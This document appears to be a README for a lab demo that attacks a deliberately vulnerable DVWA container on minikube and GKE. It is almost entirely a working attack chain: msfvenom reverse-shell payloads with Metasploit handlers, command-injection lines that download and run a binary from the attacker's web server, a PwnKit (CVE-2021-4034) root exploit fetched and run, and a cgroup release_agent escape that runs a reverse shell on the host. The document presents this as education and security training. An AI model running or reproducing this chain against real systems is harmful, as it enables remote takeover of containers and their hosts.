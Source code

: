 # Hack DVWA with container escape

The demo consists of the follwoing parts:

- Hack DVWA via command injection to get a reverse shell
- get root rights within the container via CVE-2021-4034
- abuse the misconfiguration --privileged of container

As a base i used the DVWA docker build from [opsxcq](https://github.com/opsxcq/docker-vulnerable-dvwa).

## Login to DVWA with default credentials

To login you can use the following credentials:

- Username: admin
- Password: password

## kubernetes cluster (minikube)

If minikube is used, you can easily start and build the container locally:

```bash
# NOTE: if minikube is used with docker desktop, you need to configure docker desktop before. The node got the ip 192.168.59.100
minikube start --memory 4096 --cpus 4
eval $(minikube docker-env)
docker build -t docker.io/hacklab/dvwa-container-escape -f ./Dockerfile .
```

Deploy DVWA into Minikube

```bash
kubectl apply -f dvwa-minikube-deployment.yaml
```

Forward the pod ports locally:

```bash
kubectl get pods
NAME                                     READY   STATUS    RESTARTS   AGE
dvwa-container-escape-77fcfd454b-qkrt4   1/1     Running   0          63s

kubectl port-forward dvwa-container-escape-77fcfd454b-qkrt4 8080:80
```

Login to the DVWA with the default credential and click on the `Create / Reset database` button and it will generate any aditional configuration needed.

Create the meterpreter for the DVWA container

```bash
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=192.168.59.1 LPORT=4242 -f elf > met-container
```

Start the metasploit framework for the DVWA container connection

```bash
msfconsole -q -x 'use exploit/multi/handler;set payload linux/x86/meterpreter_reverse_tcp;set lhost 0.0.0.0; set lport 4242;run'
```

Create the reverse shell for the docker host

```bash
msfvenom -p linux/x86/shell/reverse_tcp LHOST=192.168.59.1 LPORT=4243 -f elf > met-host
```

Start the metasploit framework for the docker host connection

```bash
msfconsole -q -x 'use exploit/multi/handler;set payload linux/x86/shell/reverse_tcp;set lhost 0.0.0.0; set lport 4243;run'
```

Start the on liner web server that the victim can download the shells

```bash
ruby -run -ehttpd . -p8001
```

Execute the DVWA command injection exploit. After re-login go to [http://localhost:8080/vulnerabilities/exec/](http://localhost:8080/vulnerabilities/exec/) and execute the following commands.

```
;curl -vk http://192.168.59.1:8001/met-container -o /tmp/met

;chmod 777 /tmp/met

;/tmp/met
```

Now you have a reverse meterpreter connection from the container, type `shell` to get a bash.

Get root within the DVWA container

```bash
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

cd /tmp

curl -vkO https://pwnkit.s3.amazonaws.com/priv-es

chmod a+x ./priv-es

./priv-es

id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

Execute the following commands in your DVWA root shell to get a root shell from the docker host

```bash
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
echo "$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "curl -vk http://192.168.59.1:8001/met-host -o /run/met" >> /cmd
echo "chmod 777 /run/met" >> /cmd
echo "/run/met" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

Now you got a root shell from your container host.

To delete the deployment just run:

```
kubectl delete -f dvwa-minikube-deployment.yaml
```

## kubernetes cluster (gke)

Connect to your gke cluster

```bash
gcloud container clusters get-credentials cluster-1 --zone us-central1-c --project <project name>
```

Configure Docker with the following command

```bash
gcloud auth configure-docker
```

Build the container image and upload to container registry of your project

```bash
docker build -t dvwa-container-escape -f ./Dockerfile .

docker tag dvwa-container-escape:latest gcr.io/<project-id>/dvwa-container-escape

docker push gcr.io/<project-id>/dvwa-container-escape
```

Deploy DVWA into gke cluster

```bash
kubectl apply -f dvwa-gke-deployment.yaml
```

Forward the pod ports locally:

```bash
kubectl get pods
NAME                                     READY   STATUS    RESTARTS   AGE
dvwa-container-escape-76df94fbf7-j2nlj   1/1     Running   0          7s

kubectl port-forward dvwa-container-escape-76df94fbf7-j2nlj 8080:80
```

Login to the DVWA with the default credential and click on the `Create / Reset database` button and it will generate any aditional configuration needed.

Create the meterpreter for the DVWA container

```bash
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=<your public ip> LPORT=4242 -f elf > met-container
```

Start the metasploit framework for the DVWA container connection

```bash
msfconsole -q -x 'use exploit/multi/handler;set payload linux/x86/meterpreter_reverse_tcp;set lhost 0.0.0.0; set lport 4242;run'
```

Create the reverse shell for the docker host

```bash
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<your public ip> LPORT=4243 -f elf > met-host
```

Start the metasploit framework for the docker host connection

```bash
msfconsole -q -x 'use exploit/multi/handler;set payload linux/x86/shell/reverse_tcp;set lhost 0.0.0.0; set lport 4243;run'
```

Start the on liner web server that the victim can download the shells

```bash
ruby -run -ehttpd . -p8001
```

Execute the DVWA command injection exploit. After re-login go to [http://localhost:8080/vulnerabilities/exec/](http://localhost:8080/vulnerabilities/exec/) and execute the following commands.

```
;curl -vk http://<your public ip>:8001/met-container -o /tmp/met

;chmod 777 /tmp/met

;/tmp/met
```

Now you have a reverse meterpreter connection from the container, type `shell` to get a bash.

Get root within the DVWA container

```bash
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

cd /tmp

curl -vkO https://pwnkit.s3.amazonaws.com/priv-es

chmod a+x ./priv-es

./priv-es

id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

Execute the following commands in your DVWA root shell to get a root shell from the docker host

```bash
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
echo "$(sed -n 's/.*\upperdir=\([^,]*\).*/\1/p' /proc/mounts)/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "curl -vk http://<your public ip>:8001/met-host -o /run/met" >> /cmd
echo "chmod 777 /run/met" >> /cmd
echo "/run/met" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

Now you got a root shell from your container host.

To delete the deployment just run:

```
kubectl delete -f dvwa-minikube-deployment.yaml
```

## Disclaimer

This or previous program is for Educational purpose ONLY. Do not use it without permission. The usual disclaimer applies, especially the fact that we (Mondoo Inc) is not liable for any damages caused by direct or indirect use of the information or functionality provided by these programs. The author or any Internet provider bears NO responsibility for content or misuse of these programs or any derivatives thereof. By using these programs you accept the fact that any damage (dataloss, system crash, system compromise, etc.) caused by the use of these programs is not Mondoo Inc's responsibility.
